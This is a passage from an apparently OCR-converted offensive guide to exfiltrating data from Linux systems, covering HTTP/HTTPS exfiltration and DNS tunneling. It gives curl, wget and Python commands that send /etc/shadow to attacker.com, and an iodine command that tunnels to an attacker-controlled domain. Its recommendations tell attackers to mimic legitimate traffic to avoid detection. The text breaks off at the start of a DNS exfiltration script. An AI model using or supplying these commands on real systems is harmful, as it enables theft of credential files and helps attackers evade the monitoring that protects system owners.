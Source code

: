 B. HTTP/HTTPS Exfiltration

Description: Similar to Windows, attackers can use HTTP/HTTPS to send data from Linux systems to external servers. This technique is effective due to the commonality of web traffic.

    Tools:
        curl: Command-line tool for transferring data with URLs.
        wget: A network utility to retrieve files from the web.
        Python with requests library.

    Command Examples:

        Using curl:

        bash

curl -X POST -d @/etc/shadow https://attacker.com/upload

Using wget:

bash

wget --post-file=/etc/shadow https://attacker.com/upload

Python Script:

python

        import requests

        url = "https://attacker.com/upload"
        files = {'file': open('/etc/shadow', 'rb')}
        r = requests.post(url, files=files)

    Recommendations:
        Use HTTPS to secure the data in transit.
        Emulate legitimate web traffic patterns to blend in.

C. DNS Tunneling

Description: Attackers can use DNS tunneling to encode data within DNS queries, effectively bypassing firewall restrictions and avoiding detection.

    Tools:
        iodine: A DNS tunneling tool.
        dns2tcp: A client/server program to tunnel TCP connections over DNS.
        Custom scripts using Python and dnspython library.

    Command Examples:

        Using iodine:

        bash

iodine -f -P password tunnel.attacker.com

Python Script for DNS Exfiltration:

python

        import dns.resolver
